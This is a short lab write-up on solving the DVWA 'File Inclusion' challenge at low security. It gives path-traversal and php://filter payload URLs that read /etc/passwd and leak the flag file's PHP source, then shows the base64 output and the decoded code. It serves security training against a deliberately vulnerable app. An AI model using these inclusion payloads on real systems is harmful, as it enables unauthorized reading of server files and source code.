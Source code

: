#+TITLE: DVWA - File Inclusion Low
#+AUTHOR: Leonardo Tamiano

* Goal
  The objective is to read all five famous quotes from
  ~../hackable/flags/fi.php~ using only the file inclusion.
  
* Description
  We have a ~div~ with three different links and by clicking on them we
  display different files within the webapp. To display a given file
  we use the following GET request

  #+begin_example
GET /vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: evil
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/fi/?page=include.php
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6jfjn0keu8uc3cijtk2hs3a505; security=low
Connection: close

  #+end_example
  
* Solution
  The idea is that by changing the name of the file within the ~page~
  parameter to an arbitrary file on the target we're able to read its
  contents. So we can read the etc passwod file with the following GET

  #+begin_example
http://evil/vulnerabilities/fi/?page=../../../../../etc/passwd
  #+end_example

  if we want to leak some php code then we need to use php filters to
  convert in base64 the php code

  #+begin_example
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
  #+end_example

  and with this we can leak the ~fi.php~ file

  #+begin_example
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
  #+end_example

  which gives us the following base64 payload

  #+begin_example
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
  #+end_example

  that, when decoded, turns out to be this php code

  #+begin_src php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
  #+end_src

